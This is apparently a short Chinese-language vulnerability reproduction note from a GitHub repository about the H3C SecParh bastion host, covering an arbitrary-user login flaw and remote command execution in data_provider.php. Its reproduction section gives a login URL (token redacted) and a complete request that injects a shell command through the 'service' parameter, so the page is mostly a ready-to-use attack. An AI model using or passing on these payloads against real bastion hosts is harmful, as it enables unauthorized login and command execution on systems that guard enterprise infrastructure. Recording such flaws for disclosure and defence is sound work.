




# H3C SecParh堡垒机 (任意用户登录+远程命令执行漏洞)

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BPHP%2B%E6%BC%8F%E6%B4%9E-H3C%20SecParh%E5%A0%A1%E5%9E%92%E6%9C%BA%20%28%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%2B%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%29.md)

任意用户登录+data_provider.php 远程命令执行漏洞

漏洞类似于齐治堡垒机

## 0x01 影响范围

H3C SecParh堡垒机




## 0x02 漏洞复现

**先通过任意用户登录获取Cookie**

```
/audit/gui_detail_view.php?token=[已脱敏]
```

 **

命令执行payload：（id–>command）**

```
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```

****
